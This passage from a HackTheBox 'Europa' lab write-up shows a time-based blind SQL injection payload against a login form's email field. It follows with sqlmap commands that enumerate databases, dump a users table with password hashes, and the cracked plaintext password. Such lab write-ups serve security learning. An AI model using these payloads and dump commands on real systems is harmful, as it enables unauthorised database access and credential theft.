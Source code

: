 ```bash

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=shiro@shiro.com' AND (SELECT 3886 FROM (SELECT(SLEEP(5)))QrgU)-- ESHj&password=password
---
...
```

>   Note: we use `force-ssl` because there is no `http`.

It looks like `sqlmap` found 3 ways to bypass the login.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# sqlmap -r login_request.txt --batch --force-ssl --dbs
...
available databases [2]:
[*] admin
[*] information_schema
...
```

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# sqlmap -r login_request.txt --batch --force-ssl -D admin --tables
...
Database: admin
[1 table]
+-------+
| users |
+-------+
...
```

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# sqlmap -r login_request.txt --batch --force-ssl -D admin -T users --dump
...
Database: admin
Table: users
[2 entries]
+----+----------------------+--------+----------------------------------+---------------+
| id | email                | active | password                         | username      |
+----+----------------------+--------+----------------------------------+---------------+
| 1  | admin@europacorp.htb | 1      | 2b6d315337f18617ba18922c0b9597ff | administrator |
| 2  | john@europacorp.htb  | 1      | 2b6d315337f18617ba18922c0b9597ff | john          |
+----+----------------------+--------+----------------------------------+---------------+
...
```

Using Hashes.com, we find out that the password is `SuperSecretPassword!`.

```
2b6d315337f18617ba18922c0b9597ff:SuperSecretPassword!
```
